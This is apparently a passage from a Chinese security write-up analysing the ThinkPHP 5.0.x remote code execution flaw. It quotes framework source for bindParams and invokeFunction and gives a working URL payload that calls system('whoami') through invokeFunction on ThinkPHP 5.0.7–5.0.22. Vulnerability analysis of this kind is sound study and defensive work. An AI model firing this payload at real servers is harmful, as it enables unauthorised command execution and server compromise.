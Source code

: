 ```php
     */
    protected function bindParams($reflect, $vars = [])
    {
        if ($reflect->getNumberOfParameters() == 0) {
            return [];
        }

        // 判断数组类型 数字数组时按顺序绑定参数
        reset($vars);
        $type   = key($vars) === 0 ? 1 : 0;
        $params = $reflect->getParameters();

        foreach ($params as $param) {
            $name      = $param->getName();
            $lowerName = Loader::parseName($name);
            $class     = $param->getClass();

            if ($class) {
                $args[] = $this->getObjectParam($class->getName(), $vars);
            } elseif (1 == $type && !empty($vars)) {
                $args[] = array_shift($vars);
            } elseif (0 == $type && isset($vars[$name])) {
                $args[] = $vars[$name];
            } elseif (0 == $type && isset($vars[$lowerName])) {
                $args[] = $vars[$lowerName];
            } elseif ($param->isDefaultValueAvailable()) {
                $args[] = $param->getDefaultValue();
            } else {
                throw new InvalidArgumentException('method param miss:' . $name);
            }
        }

        return $args;
    }
```

### 5.0.x版本

5.0.7<=ThinkPHP5<=5.0.22

>payload与5.1.x不太一样

虽然两个版本的`\think\Request::input`差不多,但是由于5.0.x版本的`\think\Request::__construct`是`protected`的,因此不能进行反射操作

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204251237352.png)

可以使用`?s=index/\think\app/invokeFunction&function=call_user_func_array&vars[function_name]=system&vars[parameters][]=whoami`作为代替

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204251255868.png)

```php
    /**
     * 执行函数或者闭包方法 支持参数调用
     * @access public
     * @param string|array|\Closure $function 函数或者闭包
     * @param array                 $vars     变量
     * @return mixed
     */
    public static function invokeFunction($function, $vars = [])
    {
        $reflect = new \ReflectionFunction($function);
        $args    = self::bindParams($reflect, $vars);
        // 记录执行信息
        self::$debug && Log::record('[ RUN ] ' . $reflect->__toString(), 'info');
```